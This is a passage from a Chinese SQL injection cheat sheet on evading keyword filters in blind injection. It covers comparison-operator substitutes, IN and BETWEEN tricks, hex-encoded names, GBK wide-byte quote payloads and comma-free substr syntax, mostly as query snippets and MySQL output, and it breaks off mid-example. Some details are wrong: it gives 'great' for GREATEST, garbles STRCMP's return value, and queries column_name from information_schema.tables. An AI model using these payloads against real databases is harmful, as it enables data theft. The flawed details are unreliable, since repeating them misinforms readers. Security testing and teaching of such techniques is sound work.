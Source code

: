     ```
    select * from users where id > 1 and id <3 # 即id = 2
    ```

  - `<>`等价于`!=`，所以前面再加一个`!`就是`=`了

- #### 大于小于号滤过

  在sql盲注中，一般使用大小于号来判断ascii码值的大小来达到爆破的效果。如果过滤了大小于号，可以使用以下的关键字来绕过。

  - `great(n1,n2,n3,...)`：返回n中的最大值。
  - `least(n1,n2,n3,...)`：返回n中的最小值.
  - `strcmp(str1,str2)`：若所有的字符串均相同，则返回STRCMP()，若根据当前分类次序，第一个参数小于第二个，则返回 -1，其它情况返回 1。

  - `in`关键字：

    ```
    mysql> select * from users where id = 1 and substr(username,1,1) in ('t');
    +----+----------+----------+
    | id | username | password |
    +----+----------+----------+
    |  1 | test1    | pass     |
    +----+----------+----------+
    1 row in set (0.01 sec)
    
    mysql> select * from users where id = 1 and substr(username,1,1) in ('y');
    Empty set (0.00 sec)
    
    ```

  - `between a and b `：范围在a到b之间。

    使用其判断相等：`between a and a`。

- #### 过滤引号绕过

  - 十六进制

    ```
    select column_name  from information_schema.tables where table_name=0x7573657273;
    ```

  - 宽字节

    ```
    # 过滤单引号时（GBK编码下）
    %bf%27 %df%27 %aa%27   # 这里会与过滤符号生成一个汉字
    ```

- #### 过滤逗号绕过

  - `from <pos> for <len>`

    ```
    mysql> select substr("string",1,3);
    +----------------------+
    | substr("string",1,3) |
    +----------------------+
    | str                  |
    +----------------------+
    